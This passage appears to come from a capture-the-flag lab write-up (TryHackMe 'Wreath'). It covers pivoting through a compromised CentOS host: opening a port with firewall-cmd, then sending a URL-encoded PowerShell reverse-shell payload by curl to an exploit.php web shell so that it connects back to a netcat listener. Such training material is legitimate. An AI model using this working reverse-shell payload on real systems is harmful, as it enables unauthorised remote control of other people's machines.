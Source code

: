 
We try to ping our attacking machine from ```10.200.87.150``` to see if we can setup a reverse shell back to our attacking machine.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Wreath/assets/10.png">

Ping requests timed out so we need to use another way. There are two options. One is to set up a relay on ```10.200.87.200``` to pass our traffic through that host. Another way is to use our ssh root shell on the host to setup a netcat listener and use that host for further penetration.

I choose the latter and before doing so we need to open up the port that we'll be using for the shell. CentOS uses a wrapper around the IPTables firewall called ```firewalld```.
We use the next command to make the port public:
```
firewall-cmd --zone=public --add-port 15010/tcp
``` 

We set up our netcat listener on the host and then send our shell using curl:
```
curl -X POST http://10.200.87.150/web/exploit.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient(%2710.200.87.200%27%2C15010)%3B%24stream%20%3D%20%24client.GetStream()%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile((%24i%20%3D%20%24stream.Read(%24bytes%2C%200%2C%20%24bytes.Length))%20-ne%200)%7B%3B%24data%20%3D%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString(%24bytes%2C0%2C%20%24i)%3B%24sendback%20%3D%20(iex%20%24data%202%3E%261%20%7C%20Out-String%20)%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20(pwd).Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20(%5Btext.encoding%5D%3A%3AASCII).GetBytes(%24sendback2)%3B%24stream.Write(%24sendbyte%2C0%2C%24sendbyte.Length)%3B%24stream.Flush()%7D%3B%24client.Close()%22"
```

We now have a reverse netcat shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/TryHackMe/Wreath/assets/11.png">
